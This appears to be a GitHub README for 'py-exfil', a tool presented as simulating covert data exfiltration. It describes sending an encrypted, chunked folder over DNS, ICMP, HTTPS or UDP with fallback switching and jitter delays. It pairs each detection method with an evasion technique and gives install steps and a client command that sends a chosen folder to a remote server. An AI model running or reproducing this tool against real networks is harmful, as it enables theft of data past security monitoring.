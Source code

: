 # **Exfiltration – Adaptive Covert Data Exfiltration**

This project simulates an **adversary exfiltrating data** past network monitoring by dynamically switching **communication protocols**. The system ensures **stealthy, reliable transmission** using various **protocol camouflage techniques**, **adaptive switching**, and **traffic manipulation strategies** to evade detection.

---

## **Design Rationale & Approach**

### **Why This Approach?**

- **Avoids Detection:** Large packet transmissions are **split into small chunks**, making it harder for network monitors to flag unusual traffic.
- **Protocol Flexibility:** Multiple transmission methods allow data exfiltration across networks **with different security policies**.
- **Automatic Adaptation:** If one protocol is blocked, **fallback mechanisms** ensure data is still exfiltrated via an alternative route.
- **Encryption & Integrity:** The entire payload is **AES-encrypted**, ensuring confidentiality even if the data is intercepted.

### **How It Works**

1. **Compression & Encryption** → The folder is first compressed into an archive, then AES-encrypted.
2. **Chunking & Encoding** → The encrypted file is **split into smaller Base64-encoded chunks** to avoid detection.
3. **Protocol Selection** → Chunks are sent via **ICMP, HTTPS, DNS, or UDP**, with **fallback switching** if a protocol is blocked.
4. **Exponential Jitter Delays** → Transmission is **randomized** to mimic normal network traffic patterns.
5. **Reassembly on Server** → The server listens across all four protocols and **reconstructs the original encrypted file**.
6. **Decryption & Extraction** → Once reassembled, the file is decrypted and extracted.

---

## **Protocol Specification**

### **UDP Tunneling**

- **Fast, Stateless Transmission** → UDP does not require a handshake, allowing efficient data transfer.
- **Custom Chunk Headers** → Each chunk includes `session_id`, `chunk_id`, and `total_chunks` for tracking.
- **Retransmission Support** → Since UDP does not guarantee delivery, `MAX_TRIES` ensures retries or fallback to another protocol.

### **HTTPS Exfiltration**

- **Mimics Legitimate Web Traffic** → Data is embedded inside HTTPS POST requests, making detection difficult.
- **Encrypted Payloads** → AES-encrypted chunks ensure the data remains secure even if intercepted.
- **Failsafe Mechanism** → If `MAX_TRIES` is exceeded, an alternative protocol is used.

### **DNS-Based Data Transfer**

- **Abuses Commonly Open Protocols** → DNS is often allowed on networks even when other traffic is restricted.
- **Payloads Sent as Subdomains** → Data is encoded in DNS query subdomains (`session_id.chunk_id.chunk_data.target_domain`).
- **ACK Mechanism for Reliability** → Server responds to confirm chunk reception.

### **ICMP Tunneling**

- **Uses Ping Packets for Exfiltration** → ICMP echo requests (`ping`) are used to transmit data.
- **Avoids Firewalls Filtering TCP/UDP** → ICMP is often ignored by firewalls, making it a useful covert channel.
- **Hex Encoding Due to ICMP Limitations** → Unlike other protocols, ICMP payloads must be sent in hexadecimal format.

---

## **Techniques for Making Traffic Appear Legitimate**

To minimize detection risks, multiple techniques have been incorporated:

### **Small, Randomized Chunk Sizes**

- Large data transfers trigger suspicion, so **data is split into smaller chunks**.
- Chunks **vary in size** to mimic **natural traffic patterns**.

### **Exponential Jitter-Based Delays**

- Each chunk transmission is **delayed using exponential backoff jitter** to **avoid fixed timing patterns**.
- **Short delays are common, long delays occur randomly**, simulating **realistic user activity**.

### **Protocol Mimicry**

- **DNS traffic appears as legitimate DNS queries**, since subdomain lengths follow normal DNS constraints.
- **HTTPS traffic is embedded in POST requests**, blending in with common API interactions and uses **definable User Agent**.

### **Adaptive Switching to Evade Detection**

- If one protocol is blocked, the **system dynamically switches** to another method.
- The **fallback mechanism** ensures exfiltration **continues despite security countermeasures**.

---

## **Potential Detection Methods & Countermeasures**

Even though this system is designed for stealth, **defensive security teams** may still attempt to detect or mitigate exfiltration. Here’s how:

### **Anomaly Detection in Packet Sizes**

- **How it's detected:** IDS/IPS systems flag **unusual ICMP payload sizes**, **large DNS queries**, or **unexpected HTTPS requests**.
- **Countermeasure:** **Chunk sizes are randomized**, and **padding techniques** can be used to make traffic appear more natural.

### **Deep Packet Inspection (DPI)**

- **How it's detected:** DPI can inspect **DNS queries**, **HTTP requests**, or **ICMP payloads** for anomalies.
- **Countermeasure:** Using **AES encryption**, payloads appear **randomized and meaningless** to DPI systems.

### **Traffic Timing & Behavioral Analysis**

- **How it's detected:** Anomalies in packet timing can be identified if data is sent at a **predictable interval**.
- **Countermeasure:** **Exponential jitter delays** prevent predictable patterns, making traffic **blend in with legitimate background noise**.

### **Rate Limiting & Firewall Policies**

- **How it's detected:** Organizations may enforce **rate limits on DNS queries, ICMP requests, or UDP packets**.
- **Countermeasure:** The system **automatically retries chunks** while **adapting protocol selection** to avoid getting blocked.

---

## **Installation**

Make sure Python 3 is installed.

```bash
git clone https://github.com/truncet/py-exfil.git
cd py-exfil
pip install -r requirements.txt
```

---

## **Usage**

### **Start the Server**

The server should be run as root.

Before running the server, generate SSL certificates:
```bash
cd server
openssl req -x509 -newkey rsa:4096 -keyout server.key -out server.crt -days 365 -nodes
python3 server.py
```

### **Run the Client**

```bash
cd client
python3 client.py --target-ip <SERVER_IP> --folder <FOLDER_PATH> --target-domain <DOMAIN>
```
- `--target-ip` → Server IP address
- `--folder` → Path of the folder to exfiltrate
- `--target-domain` → Domain for DNS-based exfiltration

---

## **Future Enhancements**

**Traffic Shaping to Resemble Normal Traffic**  
**Dynamic Encryption Key Exchange (RSA instead of Pre-Shared Keys)**  
**Support for Additional Covert Channels (e.g., SMTP, VoIP)**  
**Metadata Encryption to Further Obfuscate Chunk Tracking**  

---
